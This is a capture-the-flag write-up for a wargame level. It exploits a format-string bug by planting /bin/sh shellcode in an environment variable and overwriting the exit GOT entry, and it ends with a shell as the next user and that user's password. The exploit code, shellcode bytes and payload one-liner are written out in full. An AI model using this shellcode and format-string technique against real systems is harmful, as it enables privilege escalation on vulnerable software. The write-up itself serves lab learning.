 # level 04

## get_binary

```shell
scp -P 4242 level05@192.168.0.0:/home/users/level05/level05 level05.bin
```

## Exploit

### printf

```shell
level05@OverRide:~$ ./level05 
BBBB %10$p        
bbbb 0x62626262
```

### shellcode

* shellcode (https://www.exploit-db.com/exploits/42428) : `\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

```shell
export SHELLCODE=$(echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")
#Address of shellcode : `0xffffd8aa`
```

```shell
ffffd8aa_16 = 4294957226_10 > INT_MAX
# Split
0xd8aa --> 55466 --> 55458 + 8
0xffff --> 65535 --> 10069 + 55458 + 8
```

### Overwrite exit

```shell
#08048370 <exit@plt>:
# 8048370:       ff 25 e0 97 04 08       jmp    DWORD PTR ds:0x80497e0
# 8048376:       68 18 00 00 00          push   0x18
# 804837b:       e9 b0 ff ff ff          jmp    8048330 <_init+0x38>

(gdb) x/xw 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
(gdb) x/xw 0x80497e2
0x80497e2 <exit@got.plt+2>:     0x54200804

0x80497e0                   --> \xe0\x97\x04\x08
0x80497e0 + 2 = 0x80497e2   --> \xe2\x97\x04\x08

python2.7 -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55458x" + "%10$n" + "%10069x" + "%11$n")' > /tmp/exploit.txt
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
